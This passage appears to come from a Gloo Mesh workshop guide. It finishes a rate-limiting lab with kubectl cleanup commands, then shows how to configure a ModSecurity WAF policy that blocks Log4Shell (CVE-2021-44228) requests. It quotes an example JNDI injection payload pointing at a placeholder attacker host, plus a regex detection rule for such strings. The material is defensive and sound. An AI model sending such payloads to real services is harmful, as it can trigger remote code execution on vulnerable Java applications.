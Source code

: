 ```bash
```

And also delete the different objects we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitpolicy httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitclientconfig httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserverconfig httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserversettings rate-limit-server
```




## Lab 19 - Use the Web Application Firewall filter <a name="Lab-19"></a>


A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl --context ${CLUSTER1} apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```